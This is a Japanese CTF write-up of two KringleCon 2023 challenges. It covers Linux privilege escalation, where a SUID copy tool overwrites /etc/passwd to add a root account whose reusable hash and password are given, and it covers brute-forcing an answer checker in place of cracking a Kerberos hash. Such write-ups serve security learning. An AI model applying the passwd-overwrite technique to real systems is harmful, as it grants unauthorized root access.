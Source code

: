 ```yaml
---
title: "SANS Holiday Hack Challenge (Kringlecon) 2023 Writeup"
date: 2024-01-06T12:00:00+09:00
lastmod: 2024-01-06T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fkringlecon_2023%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2023.kringlecon.com/](https://2023.kringlecon.com/)
<br /><br />

新年明けまして おめでとうございます！

SANS の Holiday Hack Challenge (Kringlecon) 2023 をちょっとだけやりました。

チャレンジ自体にたどり着くまでにアバターを移動させないといけないのが面倒くさ過ぎて、今年も少ししかやっていません（以下）。


<br />

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_Objectives.png" alt="kringlecon_2023_Objectives.png">





<br />

<br /><br />
## Linux PrivEsc (Difficulty: 3)
- - -
### Challenge
> Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

（別のチャレンジ文もあったかもしれません。）


<br />
### Solution

まずは、SUIDがセットされているファイルを探します。

<pre>
$ find / -perm -u=s -type f 2>/dev/null
:
(snip)
:
/usr/bin/simplecopy
</pre>

<br/>
<br/>

見慣れない simplecopy というのが居たので、実行してみます。

<pre>
$ /usr/bin/simplecopy
Usage: /usr/bin/simplecopy &lt;source> &lt;destination>
</pre>

<br/>
<br/>

任意のファイルを上書きできそうなので、/etc/password にアカウントを追加します。

<pre>
$ cp /etc/passwd .
$ echo root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash >> passwd
$ /usr/bin/simplecopy passwd /etc/passwd
$ su root2
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
</pre>

/etc/passwd に追加するやつは使いまわしができるので、Linuxの権限昇格をよくやる人は、手元に一個持っておくといいです。

上記の例だと、パスワードは、`mrcake` になります。

<br />
<br />

rootユーザのホーム (/root) に、runmetoanswerというファイルがあって、実行すると簡単なクイズが表示されます。

<pre>
# /root/runmetoanswer
Who delivers Chrismas presents?

>
</pre>

ま、サンタクロースなのは間違いないんですが、大文字小文字の区別があったり、ピッタリ回答が合わないとフラグは貰えません。

<br />
<br />

`strace` や `ltrace` とかも使えないし、`strings` は大量のアウトプットが出るので、そこから答えのヒントを見つけるのが難しいかもしれませんが、いちおう `/etc/runtoanswer.yaml` を参照しているのは見つかります（以下）。

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_strings.png" alt="kringlecon_2023_strings.png">

<br />
<br />

自分は別の方法でこのファイル（`/etc/runtoanswer.yaml`）を見つけたと思うんですが、このブログを書いている時点で全く記憶に残っていないし、メモも取ってなかったので、わからないです。ごめんなさい。たぶん、`grep` か `find` です。

<br />
<br />
`/etc/runtoanswer.yaml` の中を見たら、答え `santa` が見つかります。


<br /><br />
<br /><br />
## Hashcat (Difficulty: 2)
- - -
### Challenge
> Eve Snowshoes is trying to recover a password. Head to the Island of Misfit Toys and take a crack at it!

（別のチャレンジ文もあったかもしれません。）

<br />
### Solution

hash.txt の中身を見ると、`$krb5asrep` で始まっていて、ググってみると `-m 18200` を指定するとよさそうなので、やってみます。

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_hashcat.png" alt="kringlecon_2023_hashcat.png">

<br /><br />

`1LuvCandyC4n3s!2022` か `iLuvCandyCan3s!23!` 辺りが正解なのかと思ったんですが、これらは正解ではありませんでした。

<br /><br />

そもそも、パスワードリスト (password_list.txt) の中には、それほど沢山のパスワードは含まれていないので、Brute Forceしちゃうことにしました。

<pre>
$ for pass in $(cat password_list.txt); do echo $pass | /bin/runtoanswer & done
</pre>

<br />

これで `hashcat` を使わなくてもクリアできます。



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

